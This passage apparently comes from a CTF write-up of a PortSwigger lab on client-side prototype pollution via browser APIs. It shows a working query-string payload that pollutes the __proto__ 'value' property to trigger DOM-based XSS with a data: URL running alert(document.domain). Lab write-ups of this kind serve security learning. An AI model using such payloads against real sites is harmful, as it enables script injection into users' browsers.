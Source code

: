 **Armed with above information, we can craft a payload that'll trigger an DOM-based XSS:**
```js
/?__proto__[value]=data:,alert(document.domain);
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-4/images/Pasted%20image%2020230122162452.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Prototype-Pollution/Prototype-4/images/Pasted%20image%2020230122162502.png)

# What we've learned:

1. Client-side prototype pollution via browser APIs